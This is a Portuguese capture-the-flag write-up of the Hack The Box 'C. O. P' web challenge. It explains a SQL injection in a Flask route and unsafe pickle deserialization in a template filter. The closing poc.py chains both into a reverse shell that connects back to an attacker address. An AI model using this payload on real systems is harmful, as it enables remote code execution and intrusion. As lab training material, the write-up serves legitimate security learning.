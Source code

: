 # C. O. P

> O C.O.P (Culto dos Pickles) começou uma loja web para vender sua mercadoria. Acreditamos que os fundos estejam sendo usados para operações ilícitas de propaganda baseadas em pickles! Investigue o site e tente encontrar uma forma de interceptar a operação deles!

A descrição por si só dá uma dica muito importante para a resolução desse desafio. Podemos baixar o código-fonte da aplicação e ver que se trata de uma aplicação web em Python utilizando Flask. Temos apenas dois endpoints, sendo que um trás a listagem dos produtos cadastrados:

<figure><img src="../../../.gitbook/assets/ctfhtbchallengescopindex.png" alt=""><figcaption><p>C. O. P - Página inicial da aplicação</p></figcaption></figure>

E o outro, `/view/:id` trás informações sobre um produto com base no id informado.

<figure><img src="../../../.gitbook/assets/ctfhtbchallengescopview.png" alt=""><figcaption><p>C. O. P - Detalhes do produto</p></figcaption></figure>

Podemos começar analisando o código-fonte do último endpoint, visto que ele permite a entrada de dados.

{% code title="application/blueprints/routes.py" overflow="wrap" lineNumbers="true" %}
```python
from flask import Blueprint, render_template
from application.models import shop

web = Blueprint('web', __name__)

...SNIP

@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```
{% endcode %}

Acima está o arquivo que define as rotas da aplicação. Observe que ao acessar a rota `/view`, a aplicação chama uma função `shop.select_by_id`, definida  no arquivo `models`:

{% code title="application/models.py" lineNumbers="true" %}
```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```
{% endcode %}

Perceba que a aplicação está inserindo a entrada do usuário diretamente na query SQL, ou seja, podemos tentar injetar SQL. Ao enviar uma requisição ao endpoint `/view/1'`, a aplicação retorna um erro 500, o que possivelmente indica que a entrada foi injetada na query provocando um erro. Ao consultar `/view/1'--`, a aplicação não retorna erro algum, visto que a consulta foi processada da seguinte forma:

```sql
SELECT data FROM products WHERE id='1'--'
```

Isto é, fazendo uma consulta em produtos a qual o id do produto seja 1 e comentando o restante da query que é inserido pelo back-end. Porém, apenas com esse SQL injection não somos capazes de fazer nada. Vejamos como essa rota é renderizada no template:

<pre class="language-html" data-title="application/templates/item.html" data-overflow="wrap" data-line-numbers><code class="lang-html"><strong>...SNIP
</strong><strong>&#x3C;!-- Product section-->
</strong>&#x3C;section class="py-5">
    &#x3C;div class="container px-4 px-lg-5 my-5">
        &#x3C;div class="row gx-4 gx-lg-5 align-items-center">
            {% set item = product | pickle %} &#x3C;!-- repare nessa linha -->
            &#x3C;div class="col-md-6">&#x3C;img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." />&#x3C;/div>
            &#x3C;div class="col-md-6">
                &#x3C;h1 class="display-5 fw-bolder">{{ item.name }}&#x3C;/h1>
                &#x3C;div class="fs-5 mb-5">
                    &#x3C;span>£{{ item.price }}&#x3C;/span>
                &#x3C;/div>
                &#x3C;p class="lead">{{ item.description }}&#x3C;/p>
            &#x3C;/div>
        &#x3C;/div>
    &#x3C;/div>
&#x3C;/section>
SNIP...
</code></pre>

A instrução na linha destacada está utilizando uma funcionalidade de [filtro do Flask](https://flask.palletsprojects.com/en/2.3.x/templating/#registering-filters) que deve ser definida pela aplicação. A definição desse filtro pode ser encontrada no arquivo `app.py`:

```python
...SNIP
@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))
SNIP...
```

Perceba que esse filtro é processado por uma função do [pickle](https://docs.python.org/pt-br/3/library/pickle.html), uma biblioteca de serialização do Python. A função é responsável por decodificar a entrada em base64 e então serializar ela através do pickle. Entretanto, buscando sobre essa biblioteca, foi possível [encontrar uma vulnerabilidade](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) nela que permite execução de código remotamente. Para isso, precisamos criar uma classe com o payload da RCE, usar a função `dumps` da biblioteca pickle para desserializar um objeto dessa classe e então passar esse objeto desserializado codificado em base64 para a aplicação.&#x20;

{% code title="poc.py" lineNumbers="true" %}
```python
import pickle
import requests
from base64 import b64encode, urlsafe_b64encode
import os

host = "http://cop.htb:1337" # troque pelo endereço do host vulnerável

class RCE:
    def __reduce__(self):
        ip = "127.0.0.1" # troque pelo seu endereço
        port = 1337 # troque por uma porta escutando em sua máquina
        reverse_shell = f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ip}\",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'"
        cmd = (f'echo "{b64encode(reverse_shell.encode()).decode()}" | base64 -d | sh')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE()) # serializando o objeto RCE com o pickle
    response = requests.get(url=f"{host}/view/' UNION SELECT \"{urlsafe_b64encode(pickled).decode()}\"--")
    print(response.text)
```
{% endcode %}

O script acima define uma classe RCE que, quando desserializada pelo pickle na aplicação vulnerável, realiza uma conexão de shell reversa. Dessa forma, podemos serializar um objeto dessa classe e tentar enviar ao endpoint vulnerável da aplicação. Abusando da falha de SQL injection, podemos criar um UNION SELECT com o payload, e ele será desserializado pela aplicação, resultando na conexão reversa à nossa máquina. Agora, com o shell, basta lermos o conteúdo do arquivo `flag.txt` para obter a flag.

